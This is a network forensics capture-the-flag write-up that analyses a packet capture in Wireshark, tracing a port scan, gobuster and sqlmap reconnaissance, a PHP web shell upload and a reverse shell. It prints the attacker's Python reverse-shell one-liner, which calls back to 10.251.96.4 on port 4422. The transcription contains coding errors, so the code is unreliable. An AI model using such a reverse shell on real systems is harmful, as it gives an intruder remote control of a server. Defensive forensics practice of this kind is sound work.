 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


## What is the IP responsible for conducting the port scan activity?
Port scanning is done for TCP ports.
In order to see the port scan activity, we have to to go `Statistics > Conversations > TCP`.

![1](https://github.com/Knign/Write-ups/assets/110326359/b2b6e66d-cff1-4e92-bd5b-e6cecd25319d)

### Answer
```
10.251.96.4
```

&nbsp;

## What is the port range scanned by the suspicious host?
Let's sort `Port B` in an ascending order.

![2](https://github.com/Knign/Write-ups/assets/110326359/46478686-7f2b-431d-954d-583265b08bfb)

We can see that the last port scanned is 1024.
### Answer
```
1-1024
```

&nbsp;

## What is the type of port scan conducted?
We can filter the packets using the following filter:
```
ip.src == 10.251.96.4
```

![3](https://github.com/Knign/Write-ups/assets/110326359/77cde470-7352-4a42-b6bd-4fd59c6353a5)

The packets that we filtered are TCP packets with the SYN flag set.
### Answer
```
TCP SYN
```

&nbsp;

## Two more tools were used to perform reconnaissance against open ports, what were they?
The application/tool and its version can be identified using the `User-Agent` header.

Using the following filter we can filter out packets sent to the suspicious agent and the User-Agent header.
```
ip.dst == 10.251.96.5 && http.user_agent
```

![4](https://github.com/Knign/Write-ups/assets/110326359/bb134ae8-a7ae-4ef3-be43-4309552cdf5b)

As we can see the first tool is GoBuster which is enumerating all the directories.

In order to find the second tool, we have to scroll down until we find an encoded URI.

![5](https://github.com/Knign/Write-ups/assets/110326359/0c14f5fc-fa7f-49d4-97a0-53698f5f2e05)

The second tool is SQLmap.
### Answer
```
gobuster 3.0.1, sqlmap 1.4.7
```

&nbsp;

## What is the name of the php file through which the attacker uploaded a web shell?
The HTTP POST method is used to upload data to a server. We can filter for these packets using the following filter:
```
http.request.method == POST
```
Scrolling down, we can see a POST request made for a `upload.php` file.

![6](https://github.com/Knign/Write-ups/assets/110326359/84ad7616-2e61-4fc3-a0a6-7c82ebb75bdb)

The `Referer` header in the packet tells us the address from which a resource has been requested.
### Answer
```
editprofile.php
```

&nbsp;

## What is the name of the web shell that the attacker uploaded?
Let's follow the TCP stream for the same packet by going to `Follow > TCP Stream`.

![7](https://github.com/Knign/Write-ups/assets/110326359/a8682218-3dfe-4c5f-bd32-4e3c6149b2f7)

As we can see the `Content-Disposition` header is set to `form-data` with the `dbfunctions.php` as the filename.
### Answer
```
dbfunctions.php
```

&nbsp;

## What is the parameter used in the web shell for executing commands?
In the same TCP Stream we can see an if statement that takes `cmd` as the parameter. 

![7](https://github.com/Knign/Write-ups/assets/110326359/4cf973ca-bafa-477a-ac40-6da3eb105bbd)

### Answer
```
cmd
```

&nbsp;

## What is the first command executed by the attacker?
The commands to the uploaded file are sent using GET requests. We can use the following filter to separate out these packets.
```
http.request.method == GET
```

![8](https://github.com/Knign/Write-ups/assets/110326359/b15615e2-303a-4024-b751-af31201f3314)

There were three commands executed: `id`, `python code` and `whoami`.
### Answer
```
id
```

&nbsp;

## What is the type of shell connection the attacker obtains through command execution?
We need to open the packet with the python script.

![9](https://github.com/Knign/Write-ups/assets/110326359/653d5d08-6458-477f-94c7-6028d5538d95)

Once formatted, the script looks as follows:
```python
import socket, subprocess, os;
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect("10.251.96.4", 4422);
os.dup2(S.fileno(),0)
os.dup2(S.fileno(),0)
os.dup2(S.fileno(),0)
p = subprocess.call(["/bin/sh", "-i"])
```
It creates a socket object `s` and connects to the specified IP address ("10.251.96.4") and port (4422).

It then uses `subprocess.call` to execute the `/bin/sh` shell with the "-i" flag, which opens an interactive shell session, effectively allowing the user to control the remote server.

This is inline with the characteristics of a reverse shell.
### Answer
```
Reverse shell
```

&nbsp;

## What is the port he uses for the shell connection?
We saw that the reverse shell connects to port 4422.
### Answer
```
4422
```
